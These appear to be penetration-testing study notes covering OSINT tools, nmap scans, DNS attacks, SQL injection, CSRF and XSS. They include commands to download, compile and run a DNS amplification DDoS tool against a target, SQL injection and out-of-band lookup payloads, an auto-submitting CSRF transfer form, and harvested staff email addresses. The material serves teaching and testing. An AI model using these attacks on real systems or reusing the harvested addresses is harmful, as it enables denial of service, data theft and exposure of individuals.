



MHN
OSINT
OSINT
What is recon-ng?
Recon-ng is a powerful open-source framework for conducting OSINT. It is available at https://github.com/lanmaster53/recon-ng
Setup
recon-ng comes pre-installed with Kali, but can be downloaded on Debian-based distros through the apt package manager.
sudo apt install recon-ng
For many of the modules you will need to add API keys. More on that you can read here.
You will need to install any modules before using them. You can install all modules with the following command inside recon-ng:
marketplace install all
[recon-ng][default] > marketplace install all
[*] Module installed: discovery/info_disclosure/cache_snoop
[*] Module installed: discovery/info_disclosure/interesting_files
[*] Module installed: exploitation/injection/command_injector
[*] Module installed: exploitation/injection/xpath_bruter
[*] Module installed: import/csv_file
[*] Module installed: import/list
[*] Module installed: import/masscan
[*] Module installed: import/nmap
--snip--
[*] Reloading modules...
You will also see errors for any API keys you haven't set up yet:
[!] 'github_api' key not set. github_commits module will likely fail at runtime. See 'keys add'.
[!] Module 'recon/netblocks-companies/censys_netblock_company' disabled. Dependency required: ''censys''.
[!] 'whoxy_api' key not set. whoxy_whois module will likely fail at runtime. See 'keys add'.
[!] Module 'recon/domains-companies/censys_companies' disabled. Dependency required: ''censys''.
[!] 'bing_api' key not set. bing_linkedin_contacts module will likely fail at runtime. See 'keys add'.
[!] 'github_api' key not set. github_users module will likely fail at runtime. See 'keys add'.
[!] Module 'recon/hosts-hosts/censys_hostname' disabled. Dependency required: ''censys''.
[!] Module 'recon/hosts-hosts/censys_ip' disabled. Dependency required: ''censys''.
[!] 'ipinfodb_api' key not set. ipinfodb module will likely fail at runtime. See 'keys add'.
--snip--
Workflow
-
Workspaces - recon-ng organises gathered information into workspaces, which are managed with the
workspacescommand. Workspaces are stored in~/.recon-ng/workspaces-
create a workspace:
workspaces create <name>[recon-ng][default] > workspaces create MHN [recon-ng][MHN] > -
list all workspaces:
worspaces list
-
-
Modules - recon-ng organises its functionality into the so-called modules which need to be installed before they may be used.
-
load a module:
modules load <name>
-
run a module:
run[recon-ng][MHN][profiler] > run [!] Source contains no input.
-
Modules
profiler
This module is a profile collector - it searches the Web for user profiles belonging to target individuals and stores any information it finds in the recon-ng database. It uses a table called profiles as its source.
- insert a username into the table:
db insert profiles <username>~~~~[recon-ng][MHN][profiler] > db insert profiles testuser~~~~ [*] 1 rows affected. [recon-ng][MHN][profiler] > show profiles +---------------------------------------------------------------------+ | rowid | username | resource | url | category | notes | module | +---------------------------------------------------------------------+ | 1 | testuser | | | | | user_defined | +---------------------------------------------------------------------+ [*] 1 rows returned- you can also insert an e-mail address or just the first part of one (without the @ and domain)
- inserting multiple usernames and/or e-mail addresses is also possible
What is theHarvester?
theHarvester is a powerful tool for gathering emails, names, subdomains, IPs, and URLs using a multitude of publicly available data sources. The tool is primarily a passive reconnaissance tool, however, it does employ some active reconnaissance, too. The active aspects are the DNS brute force and the screenshots it can take of any subdomains that were found. The GitHub page for theHarvester is located at https://github.com/laramies/theHarvester.
Email and subdomain harvesting
All you need to get started is a domain name. You specify it with the -d argument. You need to provide a data source using the -b option. These are the sources you can choose from:
baidu, bing, bingapi, dogpile, google, googleCSE, googleplus, google-profiles, linkedin, pgp, twitter, vhost, virustotal, threatcrowd, crtsh, netcraft, yahoo, all
This is a simple theHarvester query:
theHarvester -d kali.org -b google

Additional options:
-l- limit the number of results to work with-s- start in the specified result number-h- use SHODAN database to query discovered hosts
What are you looking for?
The goal of OSINT (OpenSource Intelligence Gathering) is to obtain information about the victim. This is passive reconnaissance as it doesn't interact with the target systems at all and is therefore not detectable. You should be generally looking for the following:
- usernames, profile names and email addresses
- passwords, PINs, private keys
- domain names
- hostnames
- software and OS types, versions, and names
- IP addresses
- technical documentation
Where can you find this information?
- social media (Facebook, Instagram, LinkedIn, Twitter, YouTube, etc.)
- personal websites
- accounts in forums and common platforms such as Github
- public databases (wireless registrars, ICANN, domain name registrars, libraries, and even phone directories)
- peer-to-peer sharing networks
Introduction
Goolge can be a very powerful tool in your OSINT toolkit. Google dorking or Google hacking is the art of using specially crafted Google queries to expose sensitive information on the Internet. Such a query is called a Google dork.
You may find all sorts of data and information, including exposed passwd files, lists with usernames, software versions, and so on.
Note: If you find such an exposed web server, do NOT click on the links from the search results. Such an act may be considered illegal! Only do this if you have written permission from the target system's owner.
A good resource for finding Google dorks is the Google Hacking Database located at https://www.exploit-db.com/google-hacking-database.
You shouldn't enter any spaces between the advanced search operator and the query.
Common operators
site: - restricts the search results to those only on the specified domain or site
inurl: - restricts results to pages containing the specified word in the URL
allinurl: - restricts results to pages containing all the specified words in the URL
intitle: - restricts results to pages containing the specified word in the title
allintitle: - restricts results to pages containing all the specified words in the title
inanchor: - restricts results to pages containing the specified word in the anchor text of links located on that page
- an anchor text is the text displayed for links instead of the URL
allinanchor: - restricts results to pages containing all the specified terms in the anchor text of links located on that page
cache: - displays Google's cached version of the webpage instead of the current version
link: - searches for pages that contain links pointing to the specified site or page
- you can't combine a link operator with a regular keyword query
- combining link: with other advanced search operators may not yield all the matching results
related: - displays websites similar or related to the one specified
info: - finds information about a specific page
location: - finds location information about a specific query
filetype: - restricts results to the specified filetype
Using whois for gathering domain name and IP address information
whois is a tool for finding domain name and IP address information which can be used as part of your OSINT gathering because it uses public data sources. You can use it as follows:
whois <hostname>
┌──(backslash0@kali)-[~]-[]
└─$ whois tesla.com 1 ⨯
Domain Name: TESLA.COM
Registry Domain ID: 187902_DOMAIN_COM-VRSN
Registrar WHOIS Server: whois.markmonitor.com
Registrar URL: http://www.markmonitor.com
Updated Date: 2020-10-02T09:07:57Z
Creation Date: 1992-11-04T05:00:00Z
Registry Expiry Date: 2022-11-03T05:00:00Z
Registrar: MarkMonitor Inc.
Registrar IANA ID: 292
Registrar Abuse Contact Email: abusecomplaints@markmonitor.com
Registrar Abuse Contact Phone: +1.2083895740
Domain Status: clientDeleteProhibited https://icann.org/epp#clientDeleteProhibited
Domain Status: clientTransferProhibited https://icann.org/epp#clientTransferProhibited
Domain Status: clientUpdateProhibited https://icann.org/epp#clientUpdateProhibited
Domain Status: serverDeleteProhibited https://icann.org/epp#serverDeleteProhibited
Domain Status: serverTransferProhibited https://icann.org/epp#serverTransferProhibited
Domain Status: serverUpdateProhibited https://icann.org/epp#serverUpdateProhibited
Name Server: A1-12.AKAM.NET
Name Server: A10-67.AKAM.NET
Name Server: A12-64.AKAM.NET
Name Server: A28-65.AKAM.NET
Name Server: A7-66.AKAM.NET
Name Server: A9-67.AKAM.NET
Name Server: EDNS69.ULTRADNS.BIZ
Name Server: EDNS69.ULTRADNS.COM
Name Server: EDNS69.ULTRADNS.NET
Name Server: EDNS69.ULTRADNS.ORG
DNSSEC: unsigned
URL of the ICANN Whois Inaccuracy Complaint Form: https://www.icann.org/wicf/
>>> Last update of whois database: 2021-09-14T09:01:10Z <<<
Using host for quick lookups
host is DNS querying tool which can be used for quick lookups. It will often return more than a single IP address:
host <hostname or IP>
┌──(backslash0@kali)-[~]-[]
└─$ host google.com
google.com has address 172.217.169.174
google.com has IPv6 address 2a00:1450:4017:80a::200e
google.com mail is handled by 10 aspmx.l.google.com.
google.com mail is handled by 20 alt1.aspmx.l.google.com.
google.com mail is handled by 40 alt3.aspmx.l.google.com.
google.com mail is handled by 30 alt2.aspmx.l.google.com.
google.com mail is handled by 50 alt4.aspmx.l.google.com.
You can also do reverse name lookups by supplying an IP address:
┌──(backslash0@kali)-[~]-[]
└─$ host 8.8.8.8
8.8.8.8.in-addr.arpa domain name pointer dns.google.
A special domain in-addr.arpa is used for reverse DNS lookups. You can read more about it here.
Querying name servers with dig
dig is a tool for performing DNS queries. It can be used to request specific resource records such as the SOA.
dig <domain> SOA
┌──(backslash0@kali)-[~]-[]
└─$ dig google.com SOA
; <<>> DiG 9.16.15-Debian <<>> google.com SOA
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 41904
;; flags: qr rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 1
;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; MBZ: 0x0005, udp: 512
;; QUESTION SECTION:
;google.com. IN SOA
;; ANSWER SECTION:
google.com. 5 IN SOA ns1.google.com. dns-admin.google.com. 396314134 900 900 1800 60
;; Query time: 8 msec
;; SERVER: 192.168.129.2#53(192.168.129.2)
;; WHEN: Tue Sep 14 15:43:28 EEST 2021
;; MSG SIZE rcvd: 89
We can see that the SOA is listed as ns1.google.com in the ANSWER SECTION. You can find the IP of this name server with dig, too.
┌──(backslash0@kali)-[~]-[]
└─$ dig ns1.google.com
; <<>> DiG 9.16.15-Debian <<>> ns1.google.com
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 41311
;; flags: qr rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 1
;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; MBZ: 0x0005, udp: 512
;; QUESTION SECTION:
;ns1.google.com. IN A
;; ANSWER SECTION:
ns1.google.com. 5 IN A 216.239.32.10
;; Query time: 43 msec
;; SERVER: 192.168.129.2#53(192.168.129.2)
;; WHEN: Tue Sep 14 15:47:51 EEST 2021
;; MSG SIZE rcvd: 59
Note that usually the SOA for domains of smaller organizations, isn't actually a part of that domain, but is instead a server provided by a hosting company.
Notice how in the answer section for google.com there was a dns-admin.google.com domain? That's actually not a domain, it's an email address and should be read as dns-admin@google.com. Yep, DNS stores emails in zone files, too. But how do you figure out which one is a hostname and which is an email address? The email address comes last.
dig can also be used to query specific name servers with the following syntax:
dig @<name server> <domain>
┌──(backslash0@kali)-[~]-[]
└─$ dig @192.168.129.138 nsa.gov
; <<>> DiG 9.16.15-Debian <<>> @192.168.129.138 nsa.gov
; (1 server found)
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 48156
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 0, AUTHORITY: 1, ADDITIONAL: 1
;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4096
;; QUESTION SECTION:
;nsa.gov. IN A
;; AUTHORITY SECTION:
nsa.gov. 600 IN SOA ns1.nsa.gov. root.nsa.gov. 2007010401 3600 600 86400 600
;; Query time: 0 msec
;; SERVER: 192.168.129.138#53(192.168.129.138)
;; WHEN: Tue Sep 14 15:57:47 EEST 2021
;; MSG SIZE rcvd: 81
Here we notice that there is no ANSWER SECTION, but there is an AUTHORITY SECTION. The queried server didn't reply with a direct answer to our request but instead pointed us to the name server responsible for answering queries about nsa.gov, which turns out to be ns1.nsa.gov.
Grabbing E-Mails from Google using goog-mail.py
goog-mail.py is a useful script used for getting email addresses from Google search results. Its author is unknown, but the script is available in many different places online.
- You will need to download the script from https://github.com/leebaird/discover/blob/master/mods/goog-mail.py (or any other place you found it)
wget https://raw.githubusercontent.com/leebaird/discover/master/mods/goog-mail.py
┌──(backslash0㉿kali)-[~/MHN/Reconnaissance/OSINT]
└─$ wget https://raw.githubusercontent.com/leebaird/discover/master/mods/goog-mail.py 1 ⨯
--2021-09-06 10:05:18-- https://raw.githubusercontent.com/leebaird/discover/master/mods/goog-mail.py
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.110.133, 185.199.108.133, 185.199.111.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.110.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2103 (2.1K) [text/plain]
Saving to: ‘goog-mail.py’
goog-mail.py.1 100%[========================================================================================================================================>] 2.05K --.-KB/s in 0s
2021-09-06 10:05:18 (41.9 MB/s) - ‘goog-mail.py’ saved [2103/2103]
- Run the script providing a
domain_name
python2 goog-mail.py [domain_name]
┌──(backslash0㉿kali)-[~/MHN/Reconnaissance/OSINT]
└─$ python2 goog-mail.py uk.ibm.com
ukclubom@uk.ibm.com
martyn.spink@uk.ibm.com
gfhelp@uk.ibm.com
iand_ferguson@uk.ibm.com
graham.butler@uk.ibm.com
laurence.carpanini@uk.ibm.com
Pensions@uk.ibm.com
Bennett@uk.ibm.com
ibm_crc@uk.ibm.com
brian.mcglone@uk.ibm.com
wakefim@uk.ibm.com
- Make sure the emails look valid
Other tools
Another very good tool for this purpose is theHarvester.
Active
Introduction
Nmap is a free and open source port and network scanner, which may also be used for vulnerability scanning through its scripting engine - the NSE.
Syntax
The syntax for nmap is as follows:
nmap <options> target_range
It is always good practice to run Nmap with root privileges as they are required for some of the tool's functionality.
You can do a simple scan on a single IP through the following command:
nmap <IP>

By default, Nmap scans the top 1000 most commonly used ports (these are not necssarily the ports 0-999). You can specify specific ports for scanning with the -p flag followed by a comma-separated list of ports. Specifying -p- will cause nmap to scan all ports (0-65535).

Port States
- open - an application is actively listening for TCP connections, UDP datagrams or SCTP associations on this port
- closed - the port is accessible (it receives and responds to Nmap probe packets), but there is no application listening on it
- filtered - Nmap cannot determine whether the port is open because packet filtering prevents its probes from reaching the port. Usually, the filter sends no response, so Nmap needs to resend the probe a few times in order to be sure that it wasn't dropped due to traffic congestion. This slows the scan drastically
- unfiltered - the port is accessible, but Nmap is unable to determine whether it is open or closed. Only the ACK scan, used for mapping firewall rulesets, may put ports in this state
- open|filtered - Nmap is unable to determine whether the port is open or filtered. This occurs for scan types in which open ports give no response
- closed|filtered - Nmap is unable to determine whether the port is closed or filtered. It is only used for the IP ID idle scan.
TCP SYN Scan
- The default scan type with root privileges (
-sSoption) - It does not complete a full TCP handshake, therefore it's a bit faster and used to be more silent (it is called a silent scan, although that is no longer the case)
- Also known as a half-open scan
You can use the -sS option or omit it entirely to perform a TCP SYN scan.

This type of scan works as follows: Nmap sends a SYN packet to the target, initiating a TCP connection. The target responds with SYN ACK, telling Nmap that the port is accessible. Finally, Nmap terminates the connection before it's finished by issueing a RST packet.

TCP Connect Scan
- The default scan type when SYN scan isn't available - lacking root privileges (
-sToption) - Nmap initiates a complete TCP connection with the target
- The connection attempts are loggen onto the target
- It's usually slower


Overview
These scan types make use of a small loophole in the TCP RFC to differentiate between open and closed ports. RFC 793 dictates that "if the destination port state is CLOSED .... an incoming segment not containing a RST causes a RST to be sent in response.” It also says the following about packets sent to open ports without the SYN, RST, or ACK bits set: “you are unlikely to get here, but if you do, drop the segment, and return.
Scanning systems compliant with this RFC text, any packet not containing SYN, RST, or ACK bits will receive a RST if the port is closed and no response at all if the port is open. So long as none of these flags are set, any combination of the other three (FIN, PSH, and URG) are fine.
These scan types can sneak through certain non-stateful firewalls and packet filtering routers and are a little more stealthy than even a SYN scan. However, not all systems are compliant with RFC 793 - some send a RST even if the port is open. Some operating systems that do this include Microsoft Windows, a lot of Cisco devices, IBM OS/400, and BSDI. These scans will work against most Unix-based systems.
It is not possible to distinguish an open from a filtered port with these scans, hence why the port states will be open|filtered.
Null Scan
Doesn't set any flags. Since null scanning does not set any set flags, it can sometimes penetrate firewalls and edge routers that filter incoming packets with certain flags. It is invoked with the -sN option:

FIN Scan
Sets just the FIN bit to on. It is invoked with -sF:

Xmas Scan
Sets the FIN, PSH, and URG flags, lighting the packet up like a Christmas tree. It is performed through the -sX option:

Overview
Network scanning is the process of gathering information about a target via comlex reconnaissance techniques. The term "network scanning" refers to the procedures used for discovering hosts, ports, running services and information about the underlying OS type.
Types of scanning
Port Scanning
Lists the open ports and the services running on them. Port scanning describes the process of querying the running services on a computer by sending a stream of messages in an attempt to identify the service in question, as well as any information related to it. It involves probing TCP and UDP ports of a target system in order to determine if a service is running / listening.
Network Scanning
This is the process of discovering active hosts on a network, either for attacking them or assessing the overall network security.
Vulnerability Scanning
Reveals the presence of known vulnerabilities. It checks whether a system is exploitable through a set of weaknesses. Such a scanner consists of a catalog and a scanning engine. The catalog contains information about known vulnerabilities and exploits for them that work on a multitude of servers. The scanning engine is responsible for the logic behind the exploitation and analysis of the results.
DNS Server Enumeration
Exploitation
Binary Exploitation
DNS
Introduction
A flaw of all DNS name servers is that if they contain incorrect information, they may spread it to clients or other name servers. Each DNS name server (even individual clients) has a DNS cache. The system stores there information about any responses it gets for domains it requested. An attacker could inject false entries in this cache and as such, any computer which queries the poisoned name server will receive false results. This is known as DNS cache poisoning.
The attack can be used to redirect users to a different website than the requested one. As such, it opens opportunities for phishing attacks by creating evil twins of login portals for well-known sites.
A tool for performing such targeted attacks is deserter. Usage information is available on its GitHub page.
What is DNS Traffic Amplification?
A DNS (Traffic) Amplificaton attack is a popular form of a distributed denial of service (DDoS) attack, which abuses open DNS resolvers to flood a target system with DNS response traffic. It's called an amplification attack because it uses DNS responses to upscale the size of the data sent to the victim.
How does it work?
An attacker sends a DNS name lookup to an open resolver with the source IP spoofed to be the victim's IP address. That way, any response traffic would be sent to the victim and not the attacker. The requests submitted by the attacker usually aim to query for as much information as possible in order to maximise the amplification effect. In most cases, the queries sent are of type ANY which requests all known information about a particular DNS zone. Using a botnet, it's easy to create immense amounts of traffic. It is also rather difficult to protect against these attacks because the traffic is coming from legitimate sources - real DNS servers.
Conducting a DNS Traffic Amplification Attack
Testing a DNS server for attack surface
We should first check if a DNS Traffic Amplification is possible and if it's viable. We can do this through Metasploit using the module auxiliary/scanner/dns/dns_amp.

In the RHOSTS you need to put the IP of the name server you want to test. This module will tell you if a name server can be used in an amplification attack but won't actually execute the attack.
Run the scanner:

Executing the attack
A simple tool is available only as a proof of concept here. You will need to download and then compile it:
wget https://raw.githubusercontent.com/rodarima/lsi/master/entrega/p2/dnsdrdos.c
gcc -o dnsdrdos dnsdrdos.c -Wall -ansi
┌──(backslash0@kali)-[~/MHN/DNS]-[]
└─$ wget https://raw.githubusercontent.com/rodarima/lsi/master/entrega/p2/dnsdrdos.c
--2021-09-21 13:01:11-- https://raw.githubusercontent.com/rodarima/lsi/master/entrega/p2/dnsdrdos.c
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.109.133, 185.199.111.133, 185.199.110.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.109.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 15109 (15K) [text/plain]
Saving to: ‘dnsdrdos.c’
dnsdrdos.c 100%[========================================================================================================================================>] 14.75K --.-KB/s in 0.001s
2021-09-21 13:01:11 (17.9 MB/s) - ‘dnsdrdos.c’ saved [15109/15109]
┌──(backslash0@kali)-[~/MHN/DNS]-[]
└─$ gcc -o dnsdrdos dnsdrdos.c -Wall -ansi
Now, create a file containing the IP's of each DNS server you want to use in the attack (only one IP per line). Use the following syntax to run the attack:
sudo ./dnsdrdos -f <dns servers file> -s <target IP> -d <domain> -l <number of loops through the list>
┌──(backslash0@kali)-[~/MHN/DNS]-[]
└─$ sudo ./dnsdrdos -f dns_servers -s 192.168.129.2 -d nsa.gov -l 30
-----------------------------------------------
dnsdrdos - by noptrix - http://www.noptrix.net/
-----------------------------------------------
┌──(backslash0@kali)-[~/MHN/DNS]-[]
└─$
The output may be empty, but the packets were sent. You can verify this with wireshark:

Web
Overview
SQL Injections allow an attacker to alter queries that an application sends to its database. This may enable the attacker to view data which they usually shouldn't have access to, edit this data arbitrarily, or modify the actual database in ways that they shouldn't be able to. In general, SQL injections could allow for the following:
- Reading sensitive data from a database
- Modifying the database data with
insert,update, ordeletequeries - Execution of privileged commands such as shutting the entire database down
- Reading files from the file system that the database is stored on
- Writing files into the file system
- Execution of additional OS commands
Types of SQLi
-
In-band - the attacker launches the attack and obtains the results through the same communication channel
- Error-based injections - retrieve information about the database, its structure and data, from error messages
- Union-based injections - combine results from a legitimate query with those from the attack in order to obtain data
-
Out-of-band - the results from the attack are exfiltrated using a different channel than the one the query was issued through
- Examples include creating an HTTP connection for sending results to a different web server or DNS tunneling
- It requires specific extenstions to be enable in the database management software
- The targated database server must be able to send outbound network requests without any restrictions
-
Blind (Inferential) - they rely on changes in the behaviour with the database or application in order to extract information, since the actual data isn't sent back to the attacker
- usually detected through time delays or boolean conditions
Introduction
You can test for SQL injections by injecting a single quote (') into any input fields or parameters which are sent to the server. Sometimes the server errors out and if proper error handling isn't implemented in the target application, the error my provide you with useful infomation such as the database engine, its version or even parts of the query into which you tried to inject.
Introduction
Union injections allow you to retrieve information from other databases by injecting an additional SELECT query. The latter will append its results to the initial query.
Suppose you have an application which executes the following query:
SELECT name, description FROM products WHERE category = 'food';
If an attacker can inject into the query, they could send the following input:
' UNION SELECT username, password FROM users--
This would append the "username" and "password" columns of the users table respectively to the columns "name" and "description" from the original query.
Determining the amount of columns returned
In a union injection, the number of columns in the injected query must match the number of columns in the original query. You can determine the number of columns by using the following query and keep appending NULLs until you observe a change in behaviour:
UNION SELECT NULL--
UNION SELECT NULL, NULL --
And so on.
Searching for columns which return entries of a particular type
Once you have determined the amount of columns, you can look for columns that contain entries of a specific type. Suppose the original query has 3 columns.
UNION SELECT NULL, NULL, NULL --
You can start replacing the NULLs one by one with a random string of text enclosed in quotation marks until you observe a change in behaviour:
UNION SELECT 'random text', NULL, NULL --
UNION SELECT NULL, 'random text', NULL --
And so on.
Network Layer Defences
A web application firewall (WAF) can be configured to drop certain requests that look suspicious.
Common bypasses:
- inserting comments
- changing character case
- using synonyms of symbols (= equals)
Application Layer Defences
- Do not write dynamic queries
- Sanitise user input
https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html
https://cheatsheetseries.owasp.org/cheatsheets/Input_Validation_Cheat_Sheet.html
Database Layer Defences
- Update DBMS
- Minimise privileges
- Proper login and monitoring
Database Metadata
Database engines provide tables with the database's metadata. This metadata table is different for the different engines:
| Engine | Table Name |
|---|---|
| SQLite | sqlite_master |
| MySQL | information_schema |
| PostgreSQL | information_schema |
| Oracle | dba_tables |
Database Version
| Database | Version Info |
|---|---|
| Oracle | SELECT banner FROM v$version SELECT version FROM v$instance |
| Microsoft | SELECT @@version |
| PostgreSQL | SELECT version() |
| MySQL | SELECT @@version |
Database Contents
Listing tables and the columns they contain:
| Database | Contents Info |
|---|---|
| Oracle | SELECT * FROM all_tables SELECT * FROM all_tab_columns WHERE table_name = 'Table Name' |
| Microsoft | SELECT * FROM information_schema.tables SELECT * FROM information_schema.columns WHERE table_name = 'Table Name' |
| PostgreSQL | SELECT * FROM information_schema.tables SELECT * FROM information_schema.columns WHERE table_name = 'Table Name' |
| MySQL | SELECT * FROM information_schema.tables SELECT * FROM information_schema.columns WHERE table_name = 'Table Name' |
String Concatenation
| Database | Concatenation |
|---|---|
| Oracle | 'a'||'b' |
| Microsoft | 'a'+'b' |
| PostgreSQL | 'a'||'b' |
| MySQL | 'a' 'b' (space) or CONCAT('a','b') |
Unconditional Time Delays
Replace delay with the desired delay in seconds.
Database | Delay Syntax
---------| ------------
Oracle| dbms_pipe.receive_message(('a'),delay)
Microsoft| WAITFOR DELAY 'hours:minutes:seconds'
PostgreSQL| SELECT pg_sleep(delay)
MySQL| SELECT sleep(delay)
DNS Lookups
| Database | Lookup Syntax |
|---|---|
| Oracle | SELECT UTL_INADDR.get_host_address('domain') - requires elevated privileges |
| Microsoft | exec master..xp_dirtree '//domain/a' |
| PostgreSQL | copy (SELECT '') to program 'nslookup domain |
| MySQL | These work only on Windows LOAD_FILE('\\\\domain\\a') SELECT ... INTO OUTFILE '\\\\domain\a' |
Overview
Certain vulnerabilities allow the attacker to input encoded characters that possess special meanings in HTML and HTTP responses. Usually, such input is sanitised by the application, however, sometimes application developers simply forget to implement sanitisation or don't do it properly.
Carriage Return (CR - \r) and Line Feed (LF - \n) can be represented with the following encodings, respectively - %0D and %0A.
CRLF injection occurs when a user manages to submit a CRLF (a new line) into an application. These vulnerabilities might be pretty minor, but might also be rather critical. The most common CRLF injections include injecting content into files on the server-side such as log files. Through cleverly crafted messages, an attacker could add fake error entries to a log and therefore make a system admin spend time looking for an issue that doesn't exist. This isn't really powerful in itself and is rather akin to pure trolling. Sometimes, however, CRLF may lead to HTTP Response Splitting.
Overview
Cross-Site Request Forgery (CSRF) is a type of attack used to trick the victim into sending a malicious request. It utilises the identity and privileges of the target in order to perform an undesired action on the victim's behalf. It is similar to indirect impersonation - you can make the victim's browser submit requests as the victim. It is called "cross-site" because a malicious website can make the victim's browser send a request to another website.
This attack typically relies on the victim being authenticated - either through cookies or basic header authorization.
How does it work
There are two primary types of CSRF - through GET requests and through POST requests (although methods like PUT and DELETE may also be exploitable).
When your browser submits a request to a web server, it also sends along all stored cookies. If CSRF occurs, any authentication cookies will be sent with the request and as such, any actions on the server would be performed on the victim's behalf. Note that in order for CSRF to work, the victim needs to be logged in because when you make a log out request, the web server usually returns an HTTP response which auto-expires your authentication cookies and they are no longer valid.
In order for it to work, the victim would need to visit your malicious website.
The GET scenario
This typically relies on hidden images through the HTML <img> tag. This tag takes an src attribute which will tell the victim's browser to perform a GET request to the specified URL in order to retrieve an image. However, an attacker can change this URL and even add parameters to it, so that the browser performs a GET request to any arbitrary site.
An example of such a malicious hidden image could be this:
<img src="http://bank.com/transfer?recipient=John&amount=1000" width="0" height="0" border="0">
When visiting your malicious site, this will make the victim's browser submit a GET request. Any cookies stored for bank.com would be sent along, including any authentication ones. As such, the bank would complete the transfer from the victim's account.
The POST scenario
If the bank uses POST requests for transfers, the <img> method won't work because image tags can't initiate POST requests. This can however be achieved through hidden forms.
<iframe style="display:none" name="csrf-frame"></iframe>
<form method='POST' action='http://bank.com/transfer' target="csrf-frame"
id="csrf-form">
<input type='hidden' name='recipient' value='John'>
<input type='hidden' name='amount' value='1000'>
<input type='submit' value='submit'>
</form>
<script>document.getElementById("csrf-form").submit()</script>
Normally, the submition of the form will require that a user clicks the submit button, but this can be automated through Javascript. The response from the submission of the POST request would be redirect to the non-displayed iframe and so the victim would never see what has happened.
Preventions
CSRF Tokens
Sometimes, websites will make use of two-part tokens called CSRF tokens in order to prevent cross-site request forgery. These tokens are generated on the server - one part is sent to the user and the other is kept private. This value is submitted with the request and validated on the server. If the CSRF token isn't correct, the server shouldn't fulfill the submission.
These tokens may be part of the POST request's body or as custom HTTP headers. They may take on any name, but some common ones include CSRF, CSRFToken, X-CSRF-TOKEN, form-id, lt, lia-token, etc.
You should always try removing or altering the CSRF token in order to check if it's properly implemented.
CORS
When a browser sends an
application/json POST request to a site, it will send an OPTIONS request beforehand. The site then returns a
response indicating which types of HTTP
requests the server accepts and from what trusted origins. Such OPTIONS requests are called preflight OPTIONS requests.
CORS, or Cross-Origin Resource Sharing, restricts resource access, including JSON response access, from domains outside the one which served a file is allowed by the site being tested. When CORS is used, submitting application/json requests are not possible, unless the website explicitly allows them.
These protections can sometimes be bypassed by changing the content-type header to application/x- www-form-urlencoded, multipart/form-data, or text/plain. Browsers don't send preflight OPTIONS requests for any of these content types and CSRF requests might succeed.
Origin and Referer Headers
Checking the Origin and Referer headers (if the origin header isn't present) prevents CSRF because these headers are controlled by the browsers and cannot be altered by the attacker
samesite Cookie Attribute
This attribute can take on the values strict or lax. When set to strict, the browser won't send that specific cookie with any request that doesn't originate from the correct website - including GET requests.
Setting the attribute to lax will prevent the cookie from being sent on normal subrequests (such as loading images or frames), however, the cookie will still be sent with direct requests to the origin site (such as those initiated by clicking on a link).
Overview
Cross-site scripting (XSS) describes the set of attacks where the attacker injects Javascript into a web application, typically because user input isn't properly sanitised. It is similar to HTML injection, however, it allows for the execution of Javascript code and that makes it a potentially critical vulnerability.
XSS vulnerabilities can be exploited in three major ways:
- stored (persistent) XSS
- reflected XSS
- DOM-based XSS
These attacks usually require user interaction.
Reflected XSS
